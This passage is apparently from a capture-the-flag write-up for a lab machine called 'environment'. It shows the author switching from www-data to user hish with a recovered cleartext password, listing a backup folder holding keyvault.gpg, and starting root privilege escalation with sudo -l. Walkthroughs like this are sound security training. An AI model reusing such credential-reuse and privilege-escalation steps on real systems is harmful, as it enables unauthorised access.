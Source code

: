 here are the passwords, we can use the second one to login as hish user:

![image](imgs/hish-pass.png)

```bash
www-data@environment:/home/hish/backup$ su hish
su hish
Password: marineSPm@ster!!

hish@environment:~/backup$
hish@environment:~/backup$ ls -la
ls -la
total 12
drwxr-xr-x 2 hish hish 4096 Jan 12  2025 .
drwxr-xr-x 5 hish hish 4096 Apr 11 00:51 ..
-rw-r--r-- 1 hish hish  430 Sep  5 17:56 keyvault.gpg
hish@environment:~/backup$
hish@environment:~/backup$ id
id
uid=1000(hish) gid=1000(hish) groups=1000(hish),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth)
```

## Root Privilege Escalation

We're in! First thing I check when I get a user on a system is to see what programs I can run with sudo using `sudo -l`:

![image](imgs/hish-sudo.png)
